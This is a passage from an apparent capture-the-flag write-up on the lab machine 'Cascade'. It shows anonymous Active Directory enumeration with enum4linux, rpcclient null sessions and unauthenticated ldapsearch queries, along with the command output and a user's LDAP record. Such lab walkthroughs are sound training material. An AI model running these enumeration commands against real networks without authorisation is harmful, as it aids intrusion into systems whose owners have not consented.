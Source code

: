 ```bash
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
enum4linux complete on Wed Nov 27 10:14:50 2024
```

As we are unauthenticated it would appear RPC is allowing anonymous sessions. We can check this with:
```bash
rpcclient -U "" -N -c "enumdomusers" $target | tee scans/rpcclient_enumdomusers
```

Output:
```bash
user:[CascGuest] rid:[0x1f5]
<SNIP>
user:[i.croft] rid:[0x46f]
```

If RPC is allowing unauthenticated sessions... I wonder if LDAP is too?
```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=CASCADE,DC=local" | tee scans/ldapsearch
```

Output not shown as it's bloomin huge, none the less yes.. it allows unauthenticated queries.

## Obtaining user.txt
### First User
We now have a list of usernames and a list of user properties. We could query LDAP for just the specific user information or we could just parse what we already have. From an OpSec perspective re-running commands or constantly querying can be bad. We're making the most of what we have.

It's hacky but it'll do! Love a good bash for loop.
```bash
for i in $(cat users); do grep "sAMAccountName: $i" scans/ldapsearch -A 30; done
```

Perusing through the output we see an odd field set on `r.thompson`:
```bash
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
```